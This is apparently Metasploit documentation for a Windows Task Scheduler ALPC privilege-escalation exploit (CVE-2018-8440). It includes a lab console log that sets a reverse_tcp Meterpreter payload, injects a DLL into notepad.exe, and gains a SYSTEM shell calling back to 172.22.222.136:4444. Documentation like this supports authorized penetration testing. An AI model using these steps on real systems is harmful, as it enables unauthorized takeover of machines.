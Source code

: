 ## Description

On vulnerable versions of Windows the alpc endpoint method SchRpcSetSecurity implemented by the task scheduler service can be used to write arbitrary DACLs to `.job` files located in `c:\windows\tasks` because the scheduler does not use impersonation when checking this location. Since users can create files in the `c:\windows\tasks` folder, a hardlink can be created to a file the user has read access to. After creating a hardlink, the vulnerability can be triggered to set the DACL on the linked file.

WARNING:
The PrintConfig.dll (%windir%\system32\driverstor\filerepository\prnms003*) on the target host
will be overwritten when the exploit runs.

This module has been tested against Windows 10 Pro x64.

## Vulnerable Application

Affected Windows OS versions and related patch details can be found in the [Microsoft Advisory for CVE-2018-8440](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8440).

## Verification Steps

* Get a meterpreter session on Windows 10 x64
* `use exploit/windows/local/alpc_taskscheduler`
* `set session <session>`
* `set payload <payload>`
* `set lhost <lhost>`
* `run`
* Get a session as SYSTEM

## Scenarios

### Tested on Windows 10 Pro Version 1803 x64

```
msf5 > use exploit/windows/local/alpc_taskscheduler
msf5 exploit(windows/local/alpc_taskscheduler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/alpc_taskscheduler) > set lhost 172.22.222.136 
lhost => 172.22.222.136
msf5 exploit(windows/local/alpc_taskscheduler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  1         shell x64/windows        Microsoft Windows [Version 10.0.17134.228] (c) 2018 Microsoft Corporation. Al...  172.22.222.136:4444 -> 172.22.222.200:50490 (172.22.222.200)
  2         meterpreter x64/windows  DESKTOP-IPOGIJR\lowmsfdev @ DESKTOP-IPOGIJR                                       172.22.222.136:4444 -> 172.22.222.200:50491 (172.22.222.200)

msf5 exploit(windows/local/alpc_taskscheduler) > set session 1
session => 1
msf5 exploit(windows/local/alpc_taskscheduler) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.22.222.136:4444 
[-] Exploit aborted due to failure: none: Only meterpreter sessions are supported
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/alpc_taskscheduler) > set session 2
session => 2
msf5 exploit(windows/local/alpc_taskscheduler) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] Checking target...
[*] Target Looks Good... trying to start notepad.exe
[*] Launching notepad.exe to host the exploit...
[+] Process 6140 launched.
[*] Writing payload dll into process 6140 memory
[*] Reflectively injecting the exploit DLL into 6140...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to 172.22.222.200
[*] Meterpreter session 3 opened (172.22.222.136:4444 -> 172.22.222.200:50492) at 2018-09-21 12:28:00 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 3...
msf5 exploit(windows/local/alpc_taskscheduler) > set session 3
session => 3
msf5 exploit(windows/local/alpc_taskscheduler) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] Checking target...
[-] Exploit aborted due to failure: none: Session is already elevated
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/alpc_taskscheduler) >
```

